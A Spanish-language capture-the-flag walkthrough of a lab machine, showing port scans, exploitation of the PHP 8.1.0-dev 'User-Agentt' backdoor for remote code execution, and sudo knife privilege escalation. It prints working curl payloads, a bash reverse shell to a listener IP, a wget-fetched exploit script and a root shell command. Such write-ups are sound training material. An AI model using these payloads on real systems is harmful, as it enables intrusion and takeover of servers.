







Enumeración
Escaneo de puertos:
nmap -p- --open --min-rate 5000 -vvv -sS -n -Pn 10.10.10.242
Host is up, received user-set (0.27s latency).
Scanned at 2024-06-02 14:36:16 -03 for 16s
Not shown: 65523 closed tcp ports (reset), 10 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT STATE SERVICE REASON
22/tcp open ssh syn-ack ttl 63
80/tcp open http syn-ack ttl 63
Detectamos versión y servicio de los puertos abiertos:
nmap -sCV -p22,80 10.10.10.242
Host is up (0.31s latency).
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
| 256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
|_ 256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
80/tcp open http Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Emergent Medical Idea
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Detectamos que se está utilizando PHP 8.1.0-dev
Intrusión
Buscamos exploits para PHP 8.1.0-dev en exploit-db. Vemos que existe un backdoor que permite a un atacante ejecutar código arbitrario en el servidor enviando el header User-Agentt.
Inicialmente, vamos a utilizar este exploit. Al ejecutarlo, nos pide la URL completa y ya obtenemos una shell como el usuario james:

Si analizamos el script, está enviando el siguiente header:
"User-Agentt": "zerodiumsystem('" + cmd + "');"
Por lo tanto, otra forma de ejecutarlo de forma manual sería enviando una petición GET a través de cURL. Por ejemplo, ejecutamos id:
curl -s -X GET http://10.10.10.242 -H "User-Agentt: zerodiumsystem('id');"
Vemos que obtenemos el output del comando:

Podemos modificar el comando a ejecutar para obtener una Reverse Shell:
curl -s -X GET http://10.10.10.242 -H "User-Agentt: zerodiumsystem('bash -c \"bash -i >& /dev/tcp/10.10.14.19/1234 0>&1 \"');"
Nos quedamos a la escucha en el puerto 1234 y obtenemos la shell. Desde aquí, vemos la primer flag:

Otra forma de entablar una Reverse Shell es con el siguiente exploit que encontré en Github:
wget https://raw.githubusercontent.com/flast101/php-8.1.0-dev-backdoor-rce/main/revshell_php_8.1.0-dev.py
Lo ejecutamos de la siguiente forma:
python3 revshell_php_8.1.0-dev.py http://10.10.10.242 10.10.14.19 443
Nos quedamos a la escucha y obtenemos la shell:
Escalación de privilegios
Utilizando el comando sudo -l vemos que el usuario james puede ejecutar el binario /usr/bin/knife como root sin necesidad de proporcionar contraseña:

Utilizando GTFObins, vemos que podemos ejecutar la utilidad de la siguiente manera para obtener una shell como root:
sudo knife exec -E 'exec "/bin/sh"'
Al hacerlo, logramos escalar privilegios y ya podemos ver la flag:
